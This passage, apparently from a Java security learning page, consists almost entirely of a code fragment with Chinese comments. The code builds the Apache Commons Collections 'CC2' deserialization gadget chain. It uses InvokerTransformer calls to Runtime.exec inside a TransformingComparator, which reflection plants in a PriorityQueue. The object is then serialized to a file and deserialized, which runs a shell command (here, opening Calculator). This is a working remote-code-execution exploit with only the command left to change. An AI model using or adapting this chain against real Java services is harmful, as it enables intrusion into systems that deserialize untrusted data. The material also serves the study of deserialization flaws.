 ```java
    // public static void main(String[] args) throws ClassNotFoundException, NoSuchFieldException, IllegalAccessException {
    public static void CC2() throws ClassNotFoundException, NoSuchFieldException, IllegalAccessException {
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"open -a /System/Applications/Calculator.app"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        TransformingComparator transformingComparator = new TransformingComparator(chainedTransformer);
        PriorityQueue priorityQueue = new PriorityQueue(2);
        priorityQueue.add(1);
        priorityQueue.add(2);
        Field field = Class.forName("java.util.PriorityQueue").getDeclaredField("comparator");
        field.setAccessible(true);
        field.set(priorityQueue, transformingComparator);
        try {
            // 序列化操作
            ObjectOutputStream outputStream = new ObjectOutputStream(new FileOutputStream("./CC2EvilGadget.bin"));
            outputStream.writeObject(priorityQueue);
            outputStream.close();
            // 反序列化操作
            ObjectInputStream inputStream = new ObjectInputStream(new FileInputStream("./CC2EvilGadget.bin"));
            inputStream.readObject();
            inputStream.close();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    public static void main(String[] args) {
        try {
            CC2();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```
